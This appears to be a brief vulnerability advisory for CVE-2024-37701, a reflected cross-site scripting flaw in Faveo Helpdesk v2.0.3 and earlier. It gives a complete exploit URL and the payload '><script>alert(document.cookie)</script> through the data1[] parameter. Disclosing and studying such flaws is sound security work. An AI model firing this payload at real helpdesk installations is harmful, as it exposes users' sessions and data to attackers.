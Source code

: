 CVE-2024-37701


Vulnerability: Reflected XSS via data1[]

URL: ```https://192.168.124.130/get-merge-tickets/0?data1[]=10&data1[]=1'><script>alert(document.cookie)</script>```

Payload: ```'><script>alert(document.cookie)</script>```

Action to trigger: None

Note: The merge values need to be valid

Version: ‎Version v2.0.3 and prior

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: data1[]


https://github.com/ladybirdweb/faveo-helpdesk


![](https://github.com/4rdr/proofs/blob/main/gifs/faveo-helpdesk_2.0.3_XSS_via_data1%5B%5D.gif)
